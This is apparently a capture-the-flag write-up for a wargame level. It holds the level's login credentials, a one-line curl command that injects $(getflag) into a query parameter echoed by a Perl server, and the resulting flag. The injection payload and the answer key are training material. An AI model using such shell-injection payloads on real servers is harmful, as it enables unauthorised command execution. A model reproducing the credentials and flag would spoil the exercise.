 username: level04  
password: qi0maab88jeaj46qoumi7maus
---

A perl server is running on localhost:4747, it accepts a query parameter `x` and echo it's value to standard output using the system shell.

Executing the following command outputs the flag.

```
curl 'localhost:4747?x=$(getflag)'
```

The flag is: ne2searoevaevoem4ov4ar8ap
